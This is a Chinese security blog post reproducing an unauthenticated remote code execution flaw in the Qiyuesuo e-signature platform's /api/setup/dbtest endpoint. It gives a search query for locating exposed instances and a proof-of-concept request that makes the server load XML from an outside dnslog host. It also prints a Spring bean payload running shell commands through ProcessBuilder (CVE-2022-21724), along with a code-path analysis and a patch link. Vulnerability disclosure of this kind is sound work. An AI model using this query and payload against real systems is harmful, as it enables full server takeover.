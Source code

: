 #  【漏洞复现】契约锁远程代码执行漏洞  
徐志洋  玄武盾网络技术实验室   2025-06-17 09:11  
  
免责声明：本文仅供安全研究与学习之用，严禁用于非法用途，违者后果自负。  
## 漏洞介绍  
  
契约锁是一个电子签章及印章管控平台，提供的电子文件具有与纸质文件一样的法律效力。近日，契约锁发布安全补丁修复了远程代码执行漏洞。该漏洞允许未经过身份认证的攻击者可以利用该漏洞在契约锁管理端上执行任意代码，从而完全控制服务器。  
## 语法  
```
app="契约锁-电子签署平台"&& port="9181"
```  
  
## 漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LAS14MYIqH3FFRfsiabBzNzOdJIFIoicH0ibLXKOkRDTg9kflIAhljz3dA/640?wx_fmt=png&from=appmsg "")  
  
POC:  
  
(这微信页面直接复制代码格式会乱，可以浏览器打开复制)  
```
/setup/dbtest
/api/setup/dbtest?db=POSTGRESQL&host=localhost&port=5321&username=root&name=test%2F%3FsocketFactory%3Dorg%2Espringframework%2Econtext%2Esupport%2EClassPathXmlApplicationContext%26socketFactoryArg%3Dhttp%3A%2F%2Fxxx.dnslog.cn%2F1%2Exml
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LLFg7QvRKdVwiaUJxUfQ2Qtv8Qnv1YLstLf4jRVSw9hHGRtiaF3bI954A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LC9YjYgDxruqEBsqtMGZoTFGvfRhVTaKg6QRXIFIKp6soIEjQMicXpBA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83L294poZhoY4FwsgKYwIH3eWDxibHjibJcLTqXJd7OtOwNiaXBayNcQytdw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LLaUwNIAibJBqhZ1GUnibYr1g4tx3RicKpKggTo2IGwfF3sbtfF92fMLWw/640?wx_fmt=png&from=appmsg "")  
## 漏洞分析  
  
接口位置：  
```
qiyuesuo\privoss.jar!\BOOT-INF\classes\com\qiyuesuo\setup\SetupController.class
```  
  
参数为db、name、host、port、username、password  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LygSuTbahJbpWbwyFH8l6vKnRzficmpVic4lLBtMeG5karMqY0ib9Of9Nw/640?wx_fmt=png&from=appmsg "")  
  
跟进validateDatabase 方法 ，来到  
```
privoss.jar!\BOOT-INF\classes\com\qiyuesuo\setup\SetupService.class
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LyuxDIggeTf89PRy9l6wAkKxl25B5SibLsImrLhDWO7BswFkAAUmoc9Q/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LiaS7GY3Tv7Z5mtHooDU8At2ME5sHYicnyb8qIgJFuEQs3NvdliadwibesQ/640?wx_fmt=png&from=appmsg "")  
  
跟进  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83L32RRS1tw1gQeBvBzmGht0WqcicgOgXFskqXgb4EpZRfoiarN8RQH98Ug/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LwvEuXHOfnIEFUNQb9hdgytQbN3kfgKficvukgogAdLZWE7a8ySCQxKw/640?wx_fmt=png&from=appmsg "")  
  
支持的jdbc  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LjmdTJaWbBrYoseygcdqIbKcpiclfzUHZtARLFYFlPfClMCE3KcEd4GA/640?wx_fmt=png&from=appmsg "")  
  
漏洞利用的是PostgreSQL JDBC Driver RCE（CVE-2022-21724）  
```
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
   <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>/bin/sh</value>
            <value>-c</value>
            <value>touch /tmp/test</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LY8dYp2TTzdBVFcHoHAXIf7RhHUDIhcUqrvpA4rBwFNY92nFr9xAvNg/640?wx_fmt=png&from=appmsg "")  
## 修复意见  
##   
  
官方已更新补丁，及时更新最新版本：https://www.qiyuesuo.com/more/security/servicepack  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/UM0M1icqlo0knIjq7rj7rsX0r4Rf2CDQylx0IjMfpPM93icE9AGx28bqwDRau5EkcWpK6WBAG5zGDS41wkfcvJiaA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
声明：  
技术文章均收集于互联网，仅作为本人学习、记录使用。  
侵权删  
！  
！  
！  
  
  
